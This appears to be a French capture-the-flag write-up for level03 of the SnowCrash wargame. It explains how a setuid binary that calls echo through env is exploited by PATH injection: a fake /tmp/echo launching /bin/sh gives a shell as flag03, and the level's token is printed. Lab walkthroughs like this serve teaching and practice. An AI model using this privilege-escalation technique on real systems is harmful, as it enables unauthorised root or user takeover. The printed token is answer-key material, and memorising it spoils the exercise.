 Un fichier éxecutable est présent dans le home, et affiche ce texte :

```
level03@SnowCrash:~$ ./level03 
Exploit me
```

On peut voir que ce fichier appartient à flag03, mais aussi qu'il a le suid et sgid actif :

```
level03@SnowCrash:~$ ls -l level03 
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

le 's' placé à la position d'éxecution du propriétaire est un **setuid bit**. Cela signifie que lorsque ce fichier est executé, il s'executera avec les permissions du propriétaire du fichier, ce qui tombe bien puisque l'exécution est autorisée pour tout le monde.
Ça semble être une exploitation basique, surtout jettant un premier coup d'oeil à l'executable avec `strings`, on trouve ceci :

```
level03@SnowCrash:~$ strings level03 
/lib/ld-linux.so.2
KT{K
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
/usr/bin/env echo Exploit me     <------- le fail
;*2$"

etc...
```

On voit que le programme appelle echo depuis l'env, ce qui est inutile en plus de créer une vulnérabilité d'attaque d'injection de chemin (ou path injection attack). Il suffit donc de modifier l'env en ajoutant par exemple :

```
echo '/bin/sh' > /tmp/echo
chmod 755 /tmp/echo
export PATH=/tmp:$PATH
```

Il ne reste plus qu'à utiliser l'exécutable qui, au lieu de faire appel à la vraie commande echo, lancera en réalité un shell avec les permissions de l'utilisateur flag03 (puisque le suid est activé sur ce fichier), nous permettant de récupérer le flag :

```
level03@SnowCrash:~$ ./level03 
$ getflag              
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
$ 
```